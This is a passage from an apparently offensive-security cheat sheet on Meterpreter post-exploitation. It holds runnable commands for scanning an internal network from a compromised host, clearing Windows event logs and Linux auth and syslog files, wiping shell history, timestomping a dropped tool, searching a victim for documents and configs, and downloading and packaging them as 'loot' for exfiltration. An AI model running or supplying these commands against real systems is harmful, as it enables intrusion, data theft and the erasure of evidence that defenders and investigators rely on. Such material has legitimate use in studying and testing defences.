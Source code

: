 ### Network Discovery:
```bash
# Port scan from the compromised host
meterpreter > run post/multi/gather/tcpudp_scanner RHOSTS=192.168.1.0/24 PORTS=22,80,135,139,443,445,3389

# ARP scan for live hosts
meterpreter > run post/multi/gather/arp_scanner RHOSTS=192.168.1.0/24
```

## 6. Covering Tracks & OPSEC

### Clearing Logs:
```bash
# On Windows
meterpreter > run event_manager -c
[*] Clear event logs

# On Linux
meterpreter > shell
$ echo "" > /var/log/auth.log
$ echo "" > /var/log/syslog
$ history -c
```

### Timestomping:
```bash
# Modify file timestamps to blend in
meterpreter > timestomp C:\Windows\Temp\winpeas.exe -f "01/01/2020 12:00:00"
```

## 7. Exfiltration & Data Extraction

### Searching for Sensitive Data:
```bash
# Find documents, databases, config files
meterpreter > search -f *.docx *.pdf *.xlsx *.db *.config *.ini -d C:\\

# On Linux
meterpreter > search -f *.txt *.conf *.cnf *.yml *.yaml *.json -d /
```

### Data Exfiltration:
```bash
# Download interesting files
meterpreter > download C:\\Users\\Administrator\\Documents\\secret.docx /root/loot/

# Package and exfiltrate data
meterpreter > shell
C:\> tar -czf loot.tar.gz C:\ sensitive\ files\
C:\> certutil -encode loot.tar.gz loot.b64
```
